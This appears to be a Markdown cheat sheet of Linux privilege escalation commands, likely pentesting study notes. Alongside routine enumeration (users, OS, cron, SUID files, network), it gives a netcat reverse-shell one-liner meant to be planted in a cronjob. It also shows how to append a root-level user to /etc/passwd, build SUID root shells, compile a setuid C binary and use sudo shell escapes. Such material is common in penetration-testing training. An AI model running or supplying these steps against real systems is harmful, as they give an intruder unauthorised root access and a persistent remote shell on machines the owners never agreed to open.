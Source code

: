 ##### Basic Privilege Escalation Enumeration

###### Basic Privesc Enumeration for Linux
```
whoami /priv
whoami // Privileges info
---
id
---
cat /etc/passwd // Discover other users
---
hostname
---
cat /etc/issue // OS
--- 
cat /etc/*-release // OS + More info
---
uname -a // Exact Package
---
ps aux // Processes
---
ifconfig
---
ip a // ifconfig
---
/sbin/route // Network map / Could be routel depending on distro
---
ss -anp // Active network connections
```
###### Enumerating Firewalls for Linux
Need root for iptables but...
```
cat /etc/iptables // Check for this 
---
cat /etc/iptables-backup
---
cat /etc/iptables | grep 'iptables-save' // iptables-restore
```
###### Enumerating Scheduled Tasks for Linux
```
ls -lah /etc/cron* //List Tasks
---
cat /etc/crontab // Inspect Carfully 
```
###### Enumerating installed applications for Linux
```
dpkg -l | grep -i APP(ie.pam)

---
```
###### Enumerating R/W files for Linux
```
find / -writable -type d 2>/dev/null
---
```
###### Enumerating Unmounted Disks for Linux
```
mount // Show mounts
---
cat /etc/fstab // Check Mounting configs
---
/bin/lsblk  // View all available disks 
---
```
###### Enumerating Drivers and Kernal Modules for Linux
```
lsmod
---
s/sbin
---
/sbin/modinfo <module> //How to view modules
```
###### SUID for Linux
```
find / -perm -u=s -type f 2>/dev/null
```
###### Find files and groups
```
find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null|column -t
```
###### Linux PrivEsc Exploitation
```
./unix-privesc-check // http://pentestmonkey.net/tools/unix-privesc-check
---
./unix-privesc-check standard
---
./unix-privesc-check detailed 
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP><PORT> >/tmp/f" // write this to a file in a cronjob
---
```
Injecting a superuser into /etc/passwd
```
openssl passwd <newpassword> // Populate password hash

echo "<NEW USERNAME>:<HASH>:0:0:root:/root:/bin/bash" >> /etc/passwd // add user to passwd
- 
su <new username> // rooted ;)
```
Try copy /bin/bash to spawn a root shell

```
cp /bin/bash rootbash

Make sure it is owned by root user and has the SUID bit set

./rootbash -p 

```
Create a custom exe
```
int main() {
  setuid(0);
  system("/bin/bash -p");
 }
 
 Compile with gcc -o shellin shellin.c
 
 ```
Service Exploits
```
Find program versions owned by root:
---------------------
ps aux | grep root
<program> --version
<program> -v
dpkg -i | grep <program>
rpm -qa | grep <program>
---------------------
Check for services hosted on local network for portforward attack
--
netstat -l
```
Weak file permissions
```
/tmp
/
/var/backups
```
sudo
```
sudo <program>
sudo -u <user> <program>
sudo -l 

sudo su 
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```
Shell Escape Seq
```


```

 
A list of tools
```
RSG - Reverse shell generator, github. (Check it out if you are really stuck)
LinEnum.sh
Linux Smart Enumeration (lse.sh)
LinPeas.sh
Linuxprivchecker
BeRoot
unix-privesc-check
linux-exploit-suggester (for KE)
```



